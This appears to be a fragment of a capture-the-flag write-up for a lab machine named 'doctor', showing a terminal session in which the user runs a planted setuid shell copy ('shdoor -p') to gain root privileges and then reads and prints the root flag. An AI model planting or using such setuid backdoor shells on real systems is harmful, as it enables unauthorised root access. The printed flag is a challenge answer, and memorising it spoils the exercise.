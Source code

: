     shaun@doctor:/tmp$ /tmp/.tester/bin/shdoor -p
    /tmp/.tester/bin/shdoor -p
    # id
    id
    uid=1002(shaun) gid=1002(shaun) euid=0(root) groups=1002(shaun)
    # cat /root/root.txt
    cat /root/root.txt
    d32cd0d4b24856

# Wrapping up



